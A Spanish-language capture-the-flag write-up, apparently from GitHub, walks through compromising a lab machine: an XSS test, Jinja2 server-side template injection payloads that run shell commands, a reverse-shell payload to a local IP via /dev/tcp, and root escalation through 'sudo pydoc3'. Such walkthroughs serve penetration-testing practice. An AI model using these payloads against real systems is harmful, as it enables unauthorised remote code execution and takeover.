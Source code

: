 nmap: 192.168.1.130

![image](https://github.com/user-attachments/assets/04153be9-dbfa-42ee-9f66-3fdf4d03ee92)

al entrar al puerto 80 no hay nada mas que un apache, así que ingresamos por el puerto 8089

![image](https://github.com/user-attachments/assets/a3aa1ef4-3c4b-431a-ab69-5d1d3cd2cd5e)


vemos que podemos colocar muchas cosas ahí, así que probé inyectando un XSS

![image](https://github.com/user-attachments/assets/bad02228-eb0e-4ffd-bb19-5f9b5282d3aa)

y funciona la inyección XSS 

ahora probaremos un ataque SSTI 
una explicación rápida y buena con ejemplos: https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=%7B%7B7*7%7D%7D#basic-tests-8

![image](https://github.com/user-attachments/assets/3e4deccc-01b6-4302-b423-94a88aa45544)

y funciona, porque nos devuelve el valor 

![image](https://github.com/user-attachments/assets/9550e161-fc82-441f-b8cd-08beb3b84dca)

de la misma pagina de explicacion encontre este comando

     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

como se ve en el código podemos ver que que hay un 'id' o sea que al lanzarlo por el ejecutable que hay ahí nos debería mostrar usuarios y grupo. 

![image](https://github.com/user-attachments/assets/08efb840-176e-4bc5-a4a2-d857c32600f0)

al igual que whoami porque podemos ver que nos muestra el usuario caldo

![image](https://github.com/user-attachments/assets/b2d70004-c3cb-491a-991b-12f2b6479221)

ahora vamos a lanzar una reverse y colocar el puerto en escucha

lanzamos:

     {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.1.108/1234 0>&1\'').read() }}


![image](https://github.com/user-attachments/assets/4cc43c1b-4349-4145-9bea-4e694d069db5)

 estamos dentro y también de primero nos da la flag de usuario

![image](https://github.com/user-attachments/assets/2598a2d8-c5a3-4007-b867-73394a338c07)

al hacer un sudo -l  vemos que a nivel de sudoers podemos ejecutar el binario pydoc3 para generar documentación a partir de módulos de Python.
y en un blog chino https://cloud.tencent.com.cn/developer/information/%E5%A6%82%E4%BD%95%E6%9F%A5%E7%9C%8Blinux%E4%B8%8A%E7%9A%84ftp que se tradujo a español encontré este comando

     sudo pydoc3 -b 8888

que si lo ejecutamos nos mandara aquí

![image](https://github.com/user-attachments/assets/7b39f3a0-a611-4b64-a200-4b9e035c9335)

colocamos

     !/bin/sh


nos saldremos y haremos un bash -p

![image](https://github.com/user-attachments/assets/3a259183-b4d5-4226-904c-c3054d17f8e9)

y seremos root! 

